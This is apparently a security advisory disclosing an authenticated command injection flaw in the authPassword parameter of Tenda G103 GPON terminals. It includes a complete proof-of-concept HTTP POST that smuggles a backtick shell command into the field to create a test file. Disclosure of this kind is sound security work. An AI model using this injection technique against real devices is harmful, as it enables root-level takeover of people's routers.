 # Tenda G103 Command Injection Vulnerability in `authPassword` Parameter of `action_set_net_settings` (gpon.lua)

## Overview

A command injection vulnerability exists in the `action_set_net_settings` function within the `gpon.lua` file of Tenda G103 GPON optical network terminals. This vulnerability arises due to improper sanitization of the `authPassword` parameter, which is directly concatenated into system commands without validation. Authenticated attackers can exploit this flaw to execute arbitrary system commands with root privileges, potentially leading to full device compromise.

The environment can be simulated using FirmAE:



![FirmAE Emulation 1](./imgs/1.png)



![FirmAE Emulation 2](./imgs/2.png)

## Details



*   **Vendor**: Tenda

*   **Product**: Tenda G103 GPON Optical Network Terminal

*   **Firmware Version**: US\_G103V1.0la\_V1.0.0.5\_TDC01

*   **Firmware Download**: [https://tenda.com](https://tenda.com.cn/material/show/2615)[.cn/ma](https://tenda.com.cn/material/show/2615)[teria](https://tenda.com.cn/material/show/2615)[l/sho](https://tenda.com.cn/material/show/2615)[w/261](https://tenda.com.cn/material/show/2615)[5](https://tenda.com.cn/material/show/2615)

*   **Affected Component**: `gpon.lua` (LuCI controller)

*   **Affected Function**: `action_set_net_settings`

*   **Affected Parameter**: `authPassword`

*   **Vulnerability Type**: Command Injection

*   **Impact**: Arbitrary command execution, credential leakage, unauthorized configuration changes, or complete device takeover

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Vulnerability Analysis

The `action_set_net_settings` function processes the `authPassword` parameter, which is intended to configure the authentication password for GPON services. A critical security flaw exists: the `authPassword` parameter is passed directly to system commands such as `tdtool`, `fw_setenv`, and `uci` without any sanitization or input validation.

Key vulnerable code in `gpon.lua`:



![Vulnerable Code Snippet](./imgs/3.png)



Attackers can inject arbitrary commands by embedding shell metacharacters (e.g., backticks `` ` ``, semicolons `;`, or logical operators `&&`) in the `authPassword` parameter. These characters are not filtered, allowing the injected payload to be parsed and executed by the system shell when the concatenated commands are run.

## Proof of Concept (PoC)

### Execute `touch` to Create a Test File



```
POST /cgi-bin/luci/;stok=c64c61744085716b924f3c034266e7c1/admin/gpon/set-net-settings HTTP/1.1
Host: 192.168.0.1
Content-Length: 46
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.1/cgi-bin/luci/;stok=c64c61744085716b924f3c034266e7c1/admin/system/
Accept-Encoding: gzip, deflate, br
Cookie: isLogin=true; isLogin=true; sysauth=ca14c877a3df6cdc740bf4bbef3f02c1; sysauth=; repeatTimes=0; isLogin=true
Connection: keep-alive
 
authPassword=1`touch$IFS/tmp/authPassword.txt`
```

#### Execution Steps:



1.  Send the POST request above with a valid `stok` (session token) and authentication cookies.

2.  Access the device (via CLI, telnet, or another injected command) and verify the existence of `/tmp/authPassword.txt`.

#### Expected Result:

The file `/tmp/authPassword.txt` is created, confirming successful execution of the injected `touch` command.



![PoC Result 1](./imgs/4.png)



![PoC Result 2](./imgs/5.png)
